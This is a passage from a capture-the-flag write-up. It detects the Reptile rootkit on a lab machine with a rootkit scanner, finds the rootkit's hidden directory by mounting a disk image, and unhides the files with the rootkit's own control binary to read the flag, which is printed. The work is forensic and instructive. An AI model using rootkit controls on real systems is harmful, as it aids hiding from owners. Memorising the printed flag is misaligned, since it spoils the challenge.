    Searching for rootkit RSHA's default files...               nothing found
    Searching for rootkit RH-Sharpe's default files...          nothing found
    Searching for Ambient's rootkit (ark) default files and dirs... nothing found
    Searching for suspicious files and dirs, it may take a while... The following suspicious files and directories were found:  
    Searching for LPD Worm files and dirs...                    nothing found
    Searching for Ramen Worm files and dirs...                  nothing found
    Searching for Maniac files and dirs...                      nothing found
    Searching for RK17 files and dirs...                        nothing found
    Searching for Ducoci rootkit...                             nothing found
    Searching for Adore Worm...                                 nothing found
    Searching for ShitC Worm...                                 nothing found
    Searching for Omega Worm...                                 nothing found
    Searching for Sadmind/IIS Worm...                           nothing found
    Searching for MonKit...                                     nothing found
    Searching for Showtee...                                    nothing found
    Searching for OpticKit...                                   nothing found
    Searching for T.R.K...                                      nothing found
    Searching for Mithra...                                     nothing found
    Searching for LOC rootkit...                                nothing found
    Searching for Romanian rootkit...                           nothing found
    Searching for Suckit rootkit...                             nothing found
    Searching for Volc rootkit...                               nothing found
    Searching for Gold2 rootkit...                              nothing found
    Searching for TC2 Worm default files and dirs...            nothing found
    Searching for Anonoying rootkit default files and dirs...   nothing found
    Searching for ZK rootkit default files and dirs...          nothing found
    Searching for ShKit rootkit default files and dirs...       nothing found
    Searching for AjaKit rootkit default files and dirs...      nothing found
    Searching for zaRwT rootkit default files and dirs...       nothing found
    Searching for Madalin rootkit default files...              nothing found
    Searching for Fu rootkit default files...                   nothing found
    Searching for ESRK rootkit default files...                 nothing found
    Searching for rootedoor...                                  nothing found
    Searching for Reptile Rootkit...                            found it
    Searching for ENYELKM rootkit default files...              nothing found
    Searching for common ssh-scanners default files...          nothing found
    Searching for Linux/Ebury - Operation Windigo ssh...        nothing found 
    Searching for 64-bit Linux Rootkit ...                      nothing found
    Searching for 64-bit Linux Rootkit modules...               nothing found
    Searching for Mumblehard Linux ...                          nothing found
    Searching for Backdoor.Linux.Mokes.a ...                    nothing found
    Searching for Malicious TinyDNS ...                         nothing found
    Searching for Linux.Xor.DDoS ...                            nothing found
    Searching for Linux.Proxy.1.0 ...                           nothing found
    Searching for CrossRAT ...                                  nothing found
    Searching for Hidden Cobra ...                              nothing found
    Searching for Rocke Miner ...                               nothing found
    Searching for suspect PHP files...                          nothing found
    Searching for anomalies in shell history files...           nothing found
    Checking `rexedcs'...                                       not found
    root@erlenmeyer:~#
    
```
  

One way is to copy it `/dev/sda3`to our machine and mount it in the directory `/mnt`, this process will take a long time since it weighs approximately`10gb`
```bash
    ❯ sudo losetup /dev/loop10 sda3.image
    
    ❯ sudo kpartx -a /dev/loop10
    
    ❯ sudo vgdisplay -v | grep "LV Path"
      LV Path                /dev/ubuntu-vg/ubuntu-lv  
      LV Path                /dev/ubuntu-vg/swap
    
    ❯ mount /dev/ubuntu-vg/ubuntu-lv /mnt/
    
```
  

Now `/mnt`we can see a directory that was there before `invisible`and is `reptileRoberto`where the files of the program are probably stored.`rootkit`
```bash
    /mnt ❯ ls -l
    lrwxrwxrwx root root   7 B  Mon Feb  1 12:20:38 2021  bin ⇒ usr/bin
    drwxr-xr-x root root 4.0 KB Fri Jul 16 09:44:17 2021  boot
    drwxr-xr-x root root 4.0 KB Fri Jul 16 09:41:09 2021  cdrom
    drwxr-xr-x root root 3.9 KB Fri Apr  7 03:37:53 2023  dev
    drwxr-xr-x root root 4.0 KB Tue Sep 14 12:02:33 2021  etc
    drwxr-xr-x root root 4.0 KB Tue Jul 20 13:09:10 2021  home
    lrwxrwxrwx root root   7 B  Mon Feb  1 12:20:38 2021  lib ⇒ usr/lib
    lrwxrwxrwx root root   9 B  Mon Feb  1 12:20:38 2021  lib32 ⇒ usr/lib32
    lrwxrwxrwx root root   9 B  Mon Feb  1 12:20:38 2021  lib64 ⇒ usr/lib64
    lrwxrwxrwx root root  10 B  Mon Feb  1 12:20:38 2021  libx32 ⇒ usr/libx32  
    drwx------ root root  16 KB Fri Jul 16 09:40:16 2021  lost+found
    drwxr-xr-x root root 4.0 KB Mon Feb  1 12:20:48 2021  media
    drwxr-xr-x root root 4.0 KB Tue Sep 14 12:01:58 2021  mnt
    drwxr-xr-x root root 4.0 KB Mon Feb  1 12:20:48 2021  opt
    dr-xr-xr-x root root   0 B  Fri Apr  7 03:37:47 2023  proc
    drwxr-xr-x root root 4.0 KB Tue Jul 20 10:50:43 2021  reptileRoberto
    drwx------ root root 4.0 KB Fri Apr 21 00:06:38 2023  root
    drwxr-xr-x root root 900 B  Fri Apr 21 00:11:39 2023  run
    lrwxrwxrwx root root   8 B  Mon Feb  1 12:20:38 2021  sbin ⇒ usr/sbin
    drwxr-xr-x root root 4.0 KB Fri Jul 16 09:51:41 2021  snap
    drwxr-xr-x root root 4.0 KB Mon Feb  1 12:20:48 2021  srv
    dr-xr-xr-x root root   0 B  Fri Apr  7 03:37:49 2023  sys
    drwxrwxrwt root root 4.0 KB Fri Apr 21 00:11:30 2023  tmp
    drwxr-xr-x root root 4.0 KB Mon Feb  1 12:25:31 2021  usr
    drwxr-xr-x root root 4.0 KB Mon Feb  1 12:28:46 2021  var
 ```   

  

Inside `flag`we can also see the controls including the file`_cmd`
```bash
    /mnt/reptileRoberto ❯ ls -l
    .rwxr-xr-x root root  42 KB Tue Jul 20 10:11:18 2021  reptileRoberto
    .rwxrwxrwx root root  14 KB Tue Jul 20 10:11:18 2021  reptileRoberto_cmd
    .rw-r--r-- root root  41 B  Tue Jul 20 10:50:43 2021  reptileRoberto_flag.txt  
    .rwxrwxrwx root root 2.4 KB Tue Jul 20 10:11:18 2021  reptileRoberto_rc
    .rwxrwxrwx root root  66 KB Tue Jul 20 10:11:18 2021  reptileRoberto_shell
    .rwxrwxrwx root root 667 B  Tue Jul 20 10:11:18 2021  reptileRoberto_start
```    

  

On the real machine we can use the `_cmd`using `show`as an argument to temporarily disable it `rootkit`and be able to see the files and directories`ocultos`
```bash
    root@erlenmeyer:~# /reptileRoberto/reptileRoberto_cmd show  
    Success!
    root@erlenmeyer:~#
 ```   

  

Now we can see the files and directories on the machine and also read the`flag`
```bash
    root@erlenmeyer:/reptileRoberto# ls -l
    -rwxr-xr-x 1 root root 42760 Jul 20  2021 reptileRoberto
    -rwxrwxrwx 1 root root 14472 Jul 20  2021 reptileRoberto_cmd
    -rw-r--r-- 1 root root    41 Jul 20  2021 reptileRoberto_flag.txt  
    -rwxrwxrwx 1 root root  2488 Jul 20  2021 reptileRoberto_rc
    -rwxrwxrwx 1 root root 67816 Jul 20  2021 reptileRoberto_shell
    -rwxrwxrwx 1 root root   667 Jul 20  2021 reptileRoberto_start
    root@erlenmeyer:/reptileRoberto# cat reptileRoberto_flag.txt  
    FARADAY{__LKM-is-a-l0t-l1k3-an-0r@ng3__}
    root@erlenmeyer:/reptileRoberto#
    
```
  

© 2025 - XploitOverload

  
  


